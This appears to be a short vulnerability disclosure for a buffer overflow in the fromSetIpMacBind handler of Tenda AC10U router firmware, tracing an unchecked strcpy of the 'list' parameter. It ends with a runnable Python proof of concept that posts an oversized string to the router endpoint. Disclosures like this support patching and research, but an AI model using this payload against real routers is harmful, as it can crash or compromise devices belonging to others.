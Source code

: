 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/fromSetIpMacBind

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](15.png)


get value from list, then static_list->list, finally call strcpy, cause buff overflow

but we must send bindnum between 0-33




## POC
```
url = "http://192.168.1.13/goform/fromSetIpMacBind"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload , 'bindnum': 1})
``` 
